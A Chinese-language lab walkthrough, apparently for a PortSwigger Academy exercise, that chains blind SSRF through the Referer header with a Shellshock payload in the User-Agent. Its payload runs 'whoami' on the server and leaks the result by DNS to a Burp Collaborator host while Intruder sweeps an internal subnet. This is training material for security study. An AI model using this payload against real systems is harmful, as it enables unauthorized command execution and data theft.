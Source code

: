 ### 实验步骤

1、在[Burp Suite Professional](https://portswigger.net/burp/pro)中，从 BApp Store 安装“Collaborator Everywhere”扩展。

![](https://s2.loli.net/2022/07/21/g4Ye52DRaJC9LuS.png)

2、将实验室的域添加到 Burp Suite 的[Scope](https://portswigger.net/burp/documentation/desktop/tools/target/scope)，以便 Collaborator Everywhere 将其作为目标。

浏览网站。

![](https://s2.loli.net/2022/07/21/2qsKx385czIFi9B.png)

![image-20220721125833574](https://s2.loli.net/2022/07/21/a6gEIPukQ9xB4Fb.png)

3、请注意，当您加载产品页面时，它会通过 Referer 标头触发与 Burp Collaborator 的 HTTP 交互。

![](https://s2.loli.net/2022/07/21/qmHOIcuDAlCzax3.png)

4、观察 HTTP 交互在 HTTP 请求中包含您的 User-Agent 字符串。

![](https://s2.loli.net/2022/07/21/MVJ5uPreEqoHTFm.png)

5、将请求发送到产品页面给 Burp Intruder。

6、使用[Burp Collaborator 客户端](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client)生成唯一的 Burp Collaborator 有效负载，并将其放入以下 Shellshock 有效负载中：

```
() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN
```

7、将 Burp Intruder 请求中的 User-Agent 字符串替换为包含您的 Collaborator 域的 Shellshock 有效负载。

单击“清除 §”，将 Referer 标头更改为`http://192.168.0.1:8080`突出显示 IP 地址的最后一个八位字节（数字`1`），单击“添加 §”。

![](https://s2.loli.net/2022/07/21/SOEUW1uJGo2lNr8.png)

8、切换到 Payloads 选项卡，将有效负载类型更改为 Numbers，并在“From”和“To”和“Step”框中分别输入 1、255 和 1。

![](https://s2.loli.net/2022/07/21/ZTIia8tKdES7FWk.png)

9、点击“开始攻击”。

攻击完成后，返回 Burp Collaborator 客户端窗口，然后单击“立即投票”。如果您没有看到列出的任何交互，请等待几秒钟然后重试，因为服务器端命令是异步执行的。[您应该会看到由成功的盲SSRF 攻击](https://portswigger.net/web-security/ssrf)命中的后端系统发起的 DNS 交互。操作系统用户的名称应出现在 DNS 子域中。

![](https://s2.loli.net/2022/07/21/krIKytbocuZSFQv.png)

要完成实验，请输入操作系统用户的名称。

![](https://s2.loli.net/2022/07/21/VUYweFM2ZaLK9p3.png)

另一种利用盲SSRF漏洞的途径是诱使应用程序连接到攻击者控制的系统，并向建立连接的HTTP客户端返回恶意响应。如果您可以利用服务器 HTTP 实现中的严重客户端漏洞，您可能能够在应用程序基础架构中实现远程代码执行。[点击详细阅读](https://portswigger.net/blog/cracking-the-lens-targeting-https-hidden-attack-surface#remoteclient)。
